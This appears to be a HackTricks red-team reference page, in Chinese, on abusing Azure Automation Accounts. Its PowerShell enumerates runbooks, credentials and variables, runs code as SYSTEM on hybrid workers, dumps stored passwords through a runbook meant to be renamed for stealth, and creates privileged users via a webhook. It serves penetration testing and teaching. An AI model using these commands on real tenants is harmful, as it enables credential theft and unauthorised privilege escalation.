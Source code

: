 # Az - Automation Account

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术： <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/azure/automation/overview) Azure Automation 提供基于云的自动化、操作系统更新和配置服务，支持在 Azure 和非 Azure 环境中进行一致的管理。它包括过程自动化、配置管理、更新管理、共享功能和异构特性。

这些就像 Azure 中的 "**计划任务**"，可以让你执行操作（动作或甚至脚本）来 **管理**、检查和配置 **Azure 环境**。

### 运行作为账户

当使用 **Run as Account** 时，它会创建一个带有自签名证书的 Azure AD **应用程序**，创建一个 **服务主体** 并为该账户在 **当前订阅** 中分配 **Contributor** 角色（拥有很多权限）。\
微软建议为自动化账户使用 **Managed Identity**。

{% hint style="warning" %}
这将在 2023 年 9 月 30 日 **被移除并更改为 Managed Identities。**
{% endhint %}

## Runbooks 和作业

**Runbooks** 允许你 **执行任意 PowerShell** 代码。这可能会被 **攻击者滥用** 来窃取 **附加主体** 的权限（如果有的话）。\
在 **Runbooks** 的 **代码** 中，你还可能找到 **敏感信息**（如凭据）。

如果你可以 **读取** **作业**，请这样做，因为它们 **包含** 运行的 **输出**（潜在的 **敏感信息**）。

转到 `Automation Accounts` --> `<选择自动化账户>` --> `Runbooks/Jobs/Hybrid worker groups/Watcher tasks/credentials/variables/certificates/connections`

### 混合工作者

Runbook 可以在 **Azure 内的容器** 或 **混合工作者**（非 Azure 机器）中运行。\
**Log Analytics Agent** 部署在 VM 上以将其注册为混合工作者。\
混合工作者作业在 Windows 上以 **SYSTEM** 身份运行，在 Linux 上以 **nxautomation** 账户运行。\
每个混合工作者都注册在 **混合工作者组** 中。

因此，如果你可以选择在 **Windows 混合工作者** 中运行 **Runbook**，你将以 **System** 身份在外部机器上执行 **任意命令**（很好的 pivot 技术）。

## 破坏状态配置 (SC)

[来自文档：](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview) Azure Automation **状态配置** 是一种 Azure 配置管理服务，允许你为任何云或本地数据中心的节点编写、管理和编译 PowerShell 所需状态配置 (DSC) [配置](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations)。该服务还导入 [DSC 资源](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources)，并将配置分配给目标节点，所有这些都在云中。你可以通过在 Azure 门户中选择 **状态配置 (DSC)** 在 **配置管理** 下访问 Azure Automation 状态配置。

**敏感信息** 可能会在这些配置中找到。

### RCE

可以滥用 SC 在受管机器上运行任意脚本。

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## 枚举

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### 创建一个 Runbook

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
{% endcode %}

### 通过运行簿从自动化帐户中提取凭据和变量

{% code overflow="wrap" %}
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% endcode %}

{% hint style="info" %}
您可以通过修改现有的运行手册，并通过网络控制台执行相同的操作。
{% endhint %}

### 设置自动化高权限用户创建的步骤

#### 1. 初始化自动化帐户

* **所需操作：** 创建一个新的自动化帐户。
* **特定设置：** 确保启用“创建 Azure Run As 帐户”。

#### 2. 导入并设置运行手册

* **来源：** 从 [MicroBurst GitHub Repository](https://github.com/NetSPI/MicroBurst) 下载示例运行手册。
* **所需操作：**
* 将运行手册导入到自动化帐户中。
* 发布运行手册以使其可执行。
* 将网络钩子附加到运行手册，启用外部触发。

#### 3. 配置 AzureAD 模块

* **所需操作：** 将 AzureAD 模块添加到自动化帐户中。
* **附加步骤：** 确保所有 Azure 自动化模块已更新到最新版本。

#### 4. 权限分配

* **要分配的角色：**
* 用户管理员
* 订阅所有者
* **目标：** 将这些角色分配给自动化帐户以获得必要的权限。

#### 5. 注意潜在的访问丧失

* **注意：** 请注意，配置此类自动化可能会导致失去对订阅的控制。

#### 6. 触发用户创建

* 通过发送 POST 请求触发网络钩子以创建新用户。
* 使用提供的 PowerShell 脚本，确保将 `$uri` 替换为您的实际网络钩子 URL，并更新 `$AccountInfo` 以包含所需的用户名和密码。
```powershell
$uri = "<YOUR_WEBHOOK_URL>"
$AccountInfo  = @(@{RequestBody=@{Username="<DESIRED_USERNAME>";Password="<DESIRED_PASSWORD>"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```
## 参考文献

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}
